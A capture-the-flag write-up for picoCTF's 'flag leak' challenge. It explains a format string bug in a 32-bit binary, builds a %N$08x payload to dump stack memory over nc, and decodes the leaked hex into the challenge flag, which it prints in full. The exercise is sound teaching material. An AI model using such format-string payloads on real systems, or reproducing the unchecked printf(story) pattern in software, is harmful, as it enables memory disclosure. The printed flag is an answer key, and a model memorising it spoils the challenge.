 # FLAG LEAK

# OVERVIEW & IDEA

- This challenge gives us a 32-bit binary file and its source code. Below is informations of binary file.

```
λ ~/flag_leak/ file vuln

vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=7cdf03860c5c78d6e375e91d88a2b05b28389fd0, for GNU/Linux 3.2.0, not stripped

λ ~/flag_leak/ checksec --file=vuln

[*] '~/flag_leak/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

- Look at the `vuln()` function, we can see that, it reads the flag and puts it in `flag[BUFSIZE]`, then, program takes input and puts it in `story[128]`. But at the end of function, we see a format string vulnerable `printf(story)`.

```c
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}
```

- The idea of this challenge is just use format string vuln to leak the data on the stack, which contain flag.

## DETAILS & EXPLOIT

- I will use a bunch of `%x` to leak the data on stack. The index will be start at somewhere at `128/4 + 1 = 33` to `128/4 + 1 + 15 = 48`. `flag[]` will be at that range.

- I create the format string with simple script

```
>>> for i in range(33, 48):
...     print('%' + str(i) + '$08x', sep ='', end ='.')
...
%33$08x.%34$08x.%35$08x.%36$08x.%37$08x.%38$08x.%39$08x.%40$08x.%41$08x.%42$08x.%43$08x.%44$08x.%45$08x.%46$08x.%47$08x
```

- Copy that and feed as input for server and we get

```
λ ~/ nc saturn.picoctf.net 52344
Tell me a story and then I'll tell you one >> %33$08x.%34$08x.%35$08x.%36$08x.%37$08x.%38$08x.%39$08x.%40$08x.%41$08x.%42$08x.%43$08x.%44$08x.%45$08x.%46$08x.%47$08x.%48$08x
Here's a story -
2e783830.24383425.00783830.6f636970.7b465443.6b34334c.5f676e31.67346c46.6666305f.3474535f.635f6b63.34396532.7d643365.fbad2000.c7fa4100.00000000
```

- Using online hext to text converter I get this

![img](/picoCTF/flag_leak/assets/leak.png)

```
ocip{FTCk43L_gn1g4lFff0_4tS_c_kc49e2}d3e
```

- The order of flag is at little-endian so I write this script to convert to correct flag.

```
>>> s = "ocip{FTCk43L_gn1g4lFff0_4tS_c_kc49e2}d3e"
>>> for i in range(0, len(s), 4):
...     print(s[i+3], s[i+2], s[i+1], s[i], end = '', sep = '')
...
picoCTF{L34k1ng_Fl4g_0ff_St4ck_c2e94e3d}
```